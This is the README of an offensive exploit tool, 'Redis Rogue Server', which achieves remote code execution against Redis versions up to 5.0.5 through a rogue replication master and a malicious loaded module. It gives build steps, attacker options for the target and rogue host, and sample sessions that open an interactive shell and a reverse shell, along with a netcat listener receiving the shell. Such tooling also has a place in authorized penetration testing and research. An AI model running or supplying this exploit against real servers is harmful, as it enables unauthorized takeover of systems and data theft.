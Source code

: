 # Redis Rogue Server

A exploit for Redis(<=5.0.5) RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

__Support interactive shell and reverse shell!__

## Requirements

Python 3.6+

If you want to modify or recompile the redis module, you also require `make`.

## Usage

Compile exploit:

``` bash
cd RedisModulesSDK/exp/
make
```

Copy the .so file to same folder with `redis-rogue-server.py`.

```
➜ ./redis-rogue-server.py -h
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

Usage: redis-rogue-server.py [options]

Options:
  -h, --help           show this help message and exit
  --rhost=REMOTE_HOST  target host
  --rport=REMOTE_PORT  target redis port, default 6379
  --lhost=LOCAL_HOST   rogue server ip
  --lport=LOCAL_PORT   rogue server listen port, default 21000
  --exp=EXP_FILE       Redis Module to load, default exp.so
  -v, --verbose        Show full data stream
```

## Example

### Interactive shell

```
➜ ./redis-rogue-server.py --rhost 127.0.0.1 --lhost 127.0.0.1 --exp=module.so
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

[info] TARGET 127.0.0.1:6379
[info] SERVER 127.0.0.1:21000
[info] Setting master...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: i
[info] Interact mode start, enter "exit" to quit.
[<<] whoami
[>>] :n0b0dy
[<<] 
```

### Reverse shell

Invoke reverse shell:

```
➜ ./redis-rogue-server.py --rhost 127.0.0.1 --lhost 127.0.0.1
______         _ _      ______                         _____
| ___ \       | (_)     | ___ \                       /  ___|
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|
                                     __/ |
                                    |___/
@copyright n0b0dy @ r3kapig

[info] TARGET 127.0.0.1:6379
[info] SERVER 127.0.0.1:21000
[info] Setting master...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: r
[info] Open reverse shell...
Reverse server address: 127.0.0.1
Reverse server port: 9999
[info] Reverse shell payload sent.
[info] Check at 127.0.0.1:9999
[info] Unload module...
```

Receive reverse shell:

```
➜ nc -lvvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from localhost.localdomain 39312 received!
whoami
n0b0dy
```

## Thanks

* [RicterZ](https://github.com/RicterZ)'s redis exec module: <https://github.com/RicterZ/RedisModules-ExecuteCommand>
